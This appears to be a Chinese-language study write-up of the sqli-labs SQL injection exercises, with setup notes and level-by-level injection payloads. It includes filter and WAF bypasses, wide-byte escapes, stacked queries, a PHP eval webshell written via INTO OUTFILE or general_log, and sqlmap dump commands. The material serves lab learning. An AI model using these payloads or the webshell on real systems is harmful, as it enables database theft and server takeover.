

## 参考资料

[SQLMAP注入检查方法 11种常见SQLMAP使用方法详解](https://www.jb51.net/hack/631963.html)

## 环境

sqli-lab-master
mysql5.7
firefox
hackbar mod by Shariq Malik

mysql的版本调到5.5以上，因为这样你的数据库内才会有information_schema数据库

**部分 关卡（Less 29 - Less 31）需要 双服务器，tomcat+jsp**,配置如下：

wget https://mirrors.aliyun.com/apache/tomcat/tomcat-8/v8.5.50/bin/apache-tomcat-8.5.50.tar.gz

mkdir /usr/tomcat

tar xzf apache-tomcat-8.5.50.tar.gz -C /usr/tomcat

vim conf/service.xml 

修改默认端口8080，我这里改为 8086，同时 filewall-cmd 开放此端口

cd /usr/tomcat/apache-tomcat-8.5.50/bin

./startup.sh

如果启动失败，可能需要修改环境变量：

修改环境变量 vi /etc/profile

	export TOMCAT_HOME=/usr/tomcat/apache-tomcat-8.5.50/bin
	export PATH=$TOMCAT_HOME/bin:$PATH

**注意"="两边不留空格**


如果 source 命令使用完报错，则变量设置出错。vi,ls 这些命令都不可用。

在命令行中输入

	export PATH=/usr/bin:/usr/sbin:/bin:/sbin:/usr/X11R6/bin

这样可以保证命令行命令暂时可以使用。命令执行完之后先不要关闭终端
 
访问apache服务器 http://ip:8086/ 

项目默认路径 /usr/tomcat/apache-tomcat-8.5.50/webapps

下载 mysql-connector-java.jar  到 /usr/tomcat/apache-tomcat-8.5.50/lib  ,可能需要把它加入系统环境变量。

将Sqli-Labs文件夹中的tomcat-files.zip解压至 Tomcat 的 项目发布文件夹 

unzip tomcat-files.zip -d webapps/


并修改其中index.jsp中的2处转发链接为自己 php 项目发布文件夹的链接

<br/>

<br/>

## mysql基础

	
	#DELETE FROM SeatInformation  
	/*DELETE FROM SeatInformation */
	-- DELETE FROM SeatInformation

admin' or 1=1#


```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```


在URL中，如果在最后加上-- ，浏览器在发送请求的时候会把URL末尾的空格舍去，所以我们用--+代替-- ，原因是+在URL被URL编码后会变成空格。

同理

	--空格 等价于 --%20

	# 要用 %23


## 常见的注入类型

### 按数据类型分类

1.整形（Intiger）

```$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";```

测试步骤：

（1） 加单引号，URL：www.text.com/text.php?id=3’

对应的sql：select * from table where id=3’ 这时sql语句出错，程序无法正常从数据库中查询出数据，就会抛出异常；

（2） 加and 1=1 ,URL：www.text.com/text.php?id=3 and 1=1

对应的sql：select * from table where id=3’ and 1=1 语句执行正常，与原始页面无任何差异；

（3） 加and 1=2，URL：www.text.com/text.php?id=3 and 1=2

对应的sql：select * from table where id=3 and 1=2 语句可以正常执行，但是无法查询出结果，所以返回数据与原始网页存在差异

如果满足以上三点，则可以判断该URL存在数字型注入。


2.字符型 (String)

```$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";```

当输入的参数为字符串时，称为字符型

**字符型和数字型最大的一个区别在于，数字型不需要单引号来闭合，而字符串一般需要通过单引号来闭合的。**

例如数字型语句：select * from table where id =3

则字符型如下：select * from table where name=’admin’

测试步骤：

（1） 加单引号：select * from table where name=’admin’’

由于加单引号后变成三个单引号，则无法执行，程序会报错；

（2） 加 ’and 1=1 此时sql 语句为：select * from table where name=’admin’ and 1=1 ,也无法进行注入，还需要通过注释符号将其绕过；

因此，构造语句为：select * from table where name =’admin’ and 1=1--+ 可成功执行返回结果正确；

（3） 加and 1=2-- 此时sql语句为：select * from table where name=’admin’ and 1=2 –-+ 则会报错

如果满足以上三点，可以判断该url为字符型注入。

### 按注入语法分类

1.boolean-based

页面只返回True和False两种类型页面。

	Length（）函数 返回字符串的长度
	Substr（）截取字符串
	Ascii（）返回字符的ascii码
	sleep(n)：将程序挂起一段时间 n为n秒
	if(expr1,expr2,expr3):判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句

	'and (length(database()))>10 --+
	当前数据库database（）的长度大于10，返回true页面，否则FALSE页面


	

2.error-based

[**报错型sql注入原理分析**](https://blog.51cto.com/wt7315/1891458)

使用能触发SQL报错机制的注入语句

三种报错注入常用的语句：

(1). 通过floor报错

	and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)
其中payload为你要插入的SQL语句

需要注意的是该语句将 输出字符长度限制为64个字符

	页面会报错：Duplicate entry '数据库名1' for key 'group_key'

**floor函数返回小于等于该值的最大整数**

(2). 通过updatexml报错

	and updatexml(1,payload,1)
同样该语句对输出的字符长度也做了限制，其最长输出32位

并且该语句对payload的返回类型也做了限制，只有在payload返回的不是xml格式才会生效

	1',1,updatexml(1,concat(0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a),1))#

	1',1,updatexml(1,concat(0x3a,(select database()),0x3a),1))#

(3). 通过ExtractValue报错

	and extractvalue(1, payload)

	and (extractvalue(1, concat(0x5c,(select user()))))
输出字符有长度限制，最长32位。

payload即我们要输入的sql查询语句


3.time-based

当无论输入什么页面都回显一样，就要考虑时间盲注了，最常见的 ``` ' and sleep(5)```

一些网站会简单过滤  ```and && or || ```,这时要借助 ```if```

如果 if 被过滤，可以使用 ```case when(payload) then sleep(5) else sleep(2) end```

```substr``` 可以精确获取一个字符，进行猜测，但前提，这个字符要在你的爆破字典里。

例如我的字典，字母数字下划线: ```sqcwertyuioplkjhgfdazxvbnm_1234567890```

如果包含其他字符，就获取不到了，这时我的程序可能就停止了。

**创建一个含有特殊字符的数据库**  ```mysql> CREATE DATABASE `!@#$%^&*()_`;```

ascii 是判断当前字符的 ascii 值与数字比较，从而虽然不知道字符具体是什么，但可以不断逼近，可以用二分法，考虑效率的话这里就涉及到一些算法了，但是不需要那么复杂，慢慢爆破就好了。


	' and (if(ascii(substr(database(),1,1))>114,sleep(10),sleep(4))  --+ 
	if（）和sleep（）联合逐个猜解数据

	如果当前查询的当前数据库ascii(substr(database(),1,1))的第一个字符的ASCII码大于100，ture 沉睡10秒，FALSE 沉睡4秒
	
	利用二分法，115为fal，114TRUE，数据库第一个字符ASCII为115，即s
	
	同理修改substr(database(),2,1)可猜第二个字符，之后同理，当然在猜数据库字符前也可先猜数据库长度：length（database()）
	
	查表(查询出数据库的第一个数据表的首字母，最后查询出数据表的名字)
	' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))>100#

	```WAITFOR DELAY '0:0:4```表示延迟4秒，只是用与sql server

4.UNION query

	
	Dump into Outfile (高权限注入遇到secure_file_priv):
	into outfile / into dumpfile写文件:
	union select 1,"<?php @eval($_POST['chopper']);?>",3 into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\123456.php" --+
	
	ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

*******************************

	在mysql查看secure_file_priv
	show global variables like '%secure%';
	在mysql高版本的配置文件中默认没有secure_file_priv这个选项，但是你用SQL语句来查看secure_file_priv发现，没配置这个选项就是NULL，也就是说无法导出文件。

	替代方法：
	set global general_log=on;set global general_log_file='C:/phpStudy/WWW/123.php';select '<?php eval($_POST[123]) ?>';
	php的 mysql_query 只支持单语句。所以这个利用点不大。

[sql注入--高权限，load_file读写文件](https://www.cnblogs.com/hackxf/p/8975501.html)

5.多语句查询注入

联合查询限制条件：必须由两条或两条以上的select语句组成，语句之间用关键字union分隔 ,union中的每个查询必须包含相同的列


延时注入和布尔注入共同点：都是一个字符一个字符爆出来的，耗费时间长，都没有显示位，都要ASCII码推算

报错注入：由于配置不当，错误信息被输出到前台，导致攻击者根据报错信息进行一系列操作


## 漏洞sql格式
	
	整形
	$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
	字符型
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	字符型 '）闭合
	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
	字符型 "）闭合
	$id = '"' . $id . '"';
	$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
	字符型 ')) 闭合
	$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";


还有一些是包头注入（Header Injection）,过滤了用户名密码没有过滤包头，比如

	$uagent = $_SERVER['HTTP_USER_AGENT'];

	$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";

	',1,updatexml(1,concat(0x5c,(select database()),0x5c),1))#

	INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('',1,updatexml(1,concat(0x5c,(select database()),0x5c),1))#', 'XXX.XXX.178.167', 'admin')

	注意保证字段数与要插入的列数一致
	
常见的HTTP注入点产生位置为【Referer】、【X-Forwarded-For】、【Cookie】、【X-Real-IP】、【Accept-Language】、【Authorization】


	$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";

	',updatexml(1,concat(0x5c,(select database()),0x5c),1))#
 	 
	' union select updatexml(1,concat(0x5c,(select database()),0x5c),1)#

	$cookee = $_COOKIE['uname'];

	$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1"

	

## 步骤

1.判断注入类型

2.判断是否有显示位

将id=1改为一个数据库不存在的id值，如861，使用union select 1,2,3联合查询语句查看页面是否有显示位，如果发现页面先输出了2和3，说明页面有2个显示位，如果没有输出，说明页面没有显示位。无法使用联合查询注入。

有显示位:联合查询

无显示位:报错注入


### 一些注入姿势

在sql-lab-master 23关  对 sql语句 过滤了注释符，可以手动闭合 '

	' union select null,@@datadir,'

	等价于

	' union select null,@@datadir,3'

查数据库表编码

	select CHARSET(username) from users;

查数据库编码

	show create database security;

mysql_escape_string()没办法判断当前的编码，在PHP5.3中已经弃用这种方法, mysql_escape_string() 并不转义 % 和 _。

mysql_real_escape_string()之所以能够防注入是因为同时指定了服务端的编码和客户端的编码。

	$username =  mysql_escape_string($_POST['username']);
	$pass = mysql_escape_string($_POST['password']);
	INSERT INTO users (username,password) values (\"$username\", \"$pass\")


在sql-lab-master 25关 

 	
	and  =====> &&
    or   =====> ||
等价， 验证
		
	  ``` select * from users where id > 5 and id < 10;```

	  ``` select * from users where id > 5 && id < 10;```

**&&**会被浏览器过滤，因为 &？#在url中有别的含义。

 	# 代表网页中的一个位置。其右面的字符，就是该位置的标识符。比如，

http://www.example.com/index.html#print就代表网页index.html的print位置。浏览器读取这个URL后，会自动将print位置滚动至可视区域。
  	
	？

1）连接作用：比如

http://www.xxx.com/Show.asp?id=77&nameid=2905210001&page=1

2）清除缓存：比如

http://www.xxxxx.com/index.html

http://www.xxxxx.com/index.html?test123123

两个url打开的页面一样，但是后面这个有问号，说明不调用缓存的内容，而认为是一个新
地址，重新读取。

 	&

不同参数的间隔符

所以，**要对 && 字符，进行 url 编码**,比如

**1' %26%26 1=1 --+**

php 一般通过如下函数获取get参数，此时 $id 已对 url 解码 将 **%26%26** 还原为 **&&**

	$id=$_GET['id'];


大小写：Or、oR

重复：oorr、anandd

符号：&&、||

各种编码：0x.....、unicode

?id=1' oorr extractvalue(1,concat('~',database()))--+


	if (mid((select schema_name from information_schema.schemata limit 0,1),1,1)='i',sleep(1),0)

如果or被过滤，还应注意，表名是否含有被屏蔽的关键字，比如 infoorrmation_schema


#### 过滤空格

1. ```/**/```

2. ```/*%aa*/```    中文字符配合注释符bypass  通过union+“特殊字符”+select拼出一个新字符串，让正则认为这是个类似unionxxooselect这种，而不是union select 。 这样就能bypass检测

eg  ```union/*中文字符*/select```   还要保证这种中文字符不能构造一个汉字

过滤sql注入的正则：

	$id= preg_replace('/union\s+select/i',"", $id);

因为%a0的特性，在sql语句过滤的正则匹配时，匹配到它时是识别为中文字符的，所以不会被过滤掉，但是在进入SQL语句后，Mysql是不认中文字符的，所以直接当作空格处理，就这样，我们便达成了Bypass的目的，成功绕过空格+注释的过滤

如26关


[sql绕空格](https://lyiang.wordpress.com/2015/05/31/sql%E6%B3%A8%E5%85%A5%EF%BC%9A%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E6%B3%A8%E5%85%A5/)


注意闭合参数。
	
如 如27关sql语句为

	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";

浏览器注入的参数： id=1000')union%a0select%a01,database(),3||('

mysql 查询


[参考](https://blog.csdn.net/xiaorouji/article/details/81412526)


#### 双服务器 HPP

29关- 31关

29关 payload ```id=1&&id=0' union all sElect 1,database(),3 --+```


这里的waf指的是jsp服务器，这里起到防火墙的作用，数据会经过jsp服务器过滤之后传入php服务器中，php服务器之后将数据返回到jsp服务器，打印到客户端。

原理 ：index.jsp?id=1&&id=0 or 1=1--+，tomcat 只检查第一个参数id=1，而对第二个参数id=0 or 1=1--+不做检查，直接传给了 apache，apache 恰好解析第二个参数，便达到了攻击的目的。


##### 32,33关 宽字节注入

宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节


原理：

**宽字节注入指的是mysql数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df，也可以是大于128的任意其他字符），才到汉字的范围。 [16进制和ascii互转对照表](https://www.mokuge.com/tool/asciito16/)，而且当我们输入单引号时，mysql会调用转义函数，将单引号变为\'，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是'運'，从而使单引号闭合（逃逸），进行注入攻击**

%df%27===>(addslashes)====>%df%5c%27====>(GBK)====>運’

用户输入==>过滤函数==>代码层的$sql==>mysql处理请求==>mysql中的sql

php 转义函数：

Mysql中转义的函数addslashes，mysql_real_escape_string，mysql_escape_string等，还有一种是配置magic_quote_gpc，不过PHP高版本已经移除此功能

以常见的 addslashes为例  [addslashes api](https://www.w3school.com.cn/php/func_string_addslashes.asp)

预定义字符是：

	单引号（'）
	双引号（"）
	反斜杠（\）
	NULL

**默认地，PHP 对所有的 GET、POST 和 COOKIE 数据自动运行 addslashes()。** 所以您不应对已转义过的字符串使用 addslashes()，因为这样会导致双层转义。遇到这种情况时可以使用函数 get_magic_quotes_gpc() 进行检测。

payload 

	id=0%81'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+


[宽字节注入 参考资料](https://mp.weixin.qq.com/s?__biz=MzI4NjEyMDk0MA==&mid=2649847208&idx=1&sn=f207b86cd17135edd66470175d4a26fe&chksm=f3e41b2bc493923daa7d6401d3f15cb65cfd6be5dcdd61bed6081259dbd59c28e3fd8ae1bd49&scene=21#wechat_redirect)

##### 34关 post型 Bypass addslashes()


GET型的方式我们是以url形式提交的，因此数据会通过urlencode

POST型的方式

可以将UTF-8转换为UTF-16或者UTF-32,例如将 ```'``` 转换为utf-16为： �'  (我也不知道咋转的 :) ，使用的时候直接复制 ```�``` 吧
https://blog.csdn.net/s634772208/article/details/83715382
https://www.qqxiuzi.cn/bianma/Unicode-UTF.php)

在 输入框里填入基于宽字节改动的万能密码：

username： �'or 1=1#


或手动发送宽字节注入包：




水平越权


报错注入

	uname=-1%df' union select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a#&passwd=

回显为如下两种情况


据说还可以用post型盲注通杀payload，我这里测试未成功

##### 36关

可使用宽字节 %df 或者utf-16
	
	payload:  ?id=-1%df'or 1=1 -–+


	payload:  ?id=-1�' union select 1,user(),3 --+


mysql_real_escape_string() 函数转义 SQL 语句中使用的字符串中的特殊字符。

下列字符受影响：

    \x00
    \n
    \r
    \
    '
    "
    \x1a

##### 37关
	
	�' union select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a#

##### 38关 stacked Query 堆叠查询

	-1%df%27union select 1,@@version,3--+


	-1%df'union select 1,@@version,3;insert into users values(114,'1111','123') --+


数据库变化：


后台代码：

	/* execute multi query */
	mysqli_multi_query($con1, $sql)

##### 39关 stacked Query 堆叠查询

	-1 union select 1,@@version,3;insert into users values(115,'1111','123') --+


## sqlmap 一些语法
	
### post注入检测
	
	自动检测forms：
	
	sqlmap -u "http://ip/sqli-labs-master/Less-11/" --forms
	
	指定参数检测：
	
	sqlmap -u "http://ip/sqli-labs-master/Less-11/"  --data "uname=1&passwd=1"
	
	检测 uname 参数是否存在注入：

	sqlmap -u "http://ip/sqli-labs-master/Less-11/" --method POST --data "uname=1&passwd=1" -p uname

#### sqlmap 查看权限

	sqlmap -u url --privileges

#### post注入爆破

	抓包，保存登陆的post请求响应，存储为sql.txt，爆破数据库名：

	sqlmap -r sql.txt --dbs
		
	根据猜解的数据库猜解表：	
	
	 sqlmap -r --tables -D security
	
	根据猜解的表进行猜解表的column

	 sqlmap -r --columns -D security -T users 

	根据字段猜解内容 （--dump会下载到本地）
	
	 sqlmap -r --dump -D security -T users -C "username,password"


## 后记

sql shell 和php的mysql库函数是不同的，mysql_query 是不支持多语句的。

可以打开数据库sql执行日志，然后看slow query日志

sqlmap跑不出来需要手工注入的情况？


## 参考文献


[**SQL注入绕过技巧**](https://www.cnblogs.com/Vinson404/p/7253255.html)

[过waf](https://www.2cto.com/article/201409/331545.html)


Level 42